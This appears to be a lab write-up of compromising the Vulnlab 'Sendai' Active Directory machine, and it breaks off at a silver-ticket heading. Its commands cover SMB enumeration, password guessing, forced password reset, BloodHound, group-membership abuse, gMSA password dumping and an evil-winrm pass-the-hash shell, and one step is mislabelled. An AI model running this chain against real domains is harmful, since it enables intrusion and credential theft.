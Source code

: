 ```yaml
---
title: Vulnlab Standalone - Sendai
date: 2024-03-21
categories: [vulnlab]
tags: [AD]
pin: false
---
```


## Vulnlab Standlone - Sendai
![_install](/assets/img/VL-Sendai/sendai.png)

# Initial Access
Starting off, I added the following entries to the /etc/hosts file:
```
10.10.64.43 sendai.vl
10.10.64.43 dc.sendai.vl
```

Started of with an initial nmap scan which revealed the following information:
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-14 18:08:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
Using smbclient I listed the shares and checked if there any shares which are open for unauthenticated use:
```
smbclient -L \\\\DC.sendai.vl\\
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        config          Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        sendai          Disk      company share
        SYSVOL          Disk      Logon server share
        Users           Disk
```
Upon checking the Sendai share I found a txt file mentioning that a penetration test discovered numerous weak passwords and recommending changes as soon as possible. Also in the transfers folder, I found the UserProfiles for a few users within the domain:
```
 smb: \transfer\> ls
  .                                   D        0  Tue Jul 11 15:00:20 2023
  ..                                  D        0  Tue Jul 18 19:31:04 2023
  anthony.smith                       D        0  Tue Jul 11 14:59:50 2023
  clifford.davey                      D        0  Tue Jul 11 15:00:06 2023
  elliot.yates                        D        0  Tue Jul 11 14:59:26 2023
  lisa.williams                       D        0  Tue Jul 11 14:59:34 2023
  susan.harper                        D        0  Tue Jul 11 14:59:39 2023
  temp                                D        0  Tue Jul 11 15:00:16 2023
  thomas.powell                       D        0  Tue Jul 11 14:59:45 2023
  ```
I saved the usernames to a file called users.txt and tried common passwords such as Sendai01, Summer2024, etc. This method allowed me to recover the password for the user lisa.williams:
```
SMB         10.10.64.43     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.43     445    DC               [-] sendai.vl\lisa.williams:[REDACTED] STATUS_PASSWORD_MUST_CHANGE
```
# Getting access to mgtsvc$
I reset the password for the user with the smbpasswd tool:
```
smbpasswd -U lisa.williams -r sendai.vl
```
Now that we have valid credentials I ran the remote python bloodhound ingestor to enumerate the environment:
```
bloodhound.py --zip -c All -d sendai.vl -u lisa.williams -p P@ssw0rd -dc DC.sendai.vl -ns 10.10.98.198
```
Inspecting the Bloodhound output and further enumerating the domain revealed the following path:
- Lisa.willams has GenericAll on the ADMSVC group
- The ADMSVC group can read the gMSA password of the mgtsvc$ user'
We can abuse this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
pth-net rpc group addmem "admsvc" lisa.williams -U sendai.vl/lisa.williams -S 10.10.64.43 
```
We can exploit this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
gMSADumper.py -u 'lisa.williams' -p 'P@ssw0rd' -d 'sendai.vl' 
```
Using evil-winrm we can get a shell on the target:
```
evil-winrm -i 10.10.98.198 -u 'mgtsvc$' -H [REDACTED]
```

# Crafting silver tickets
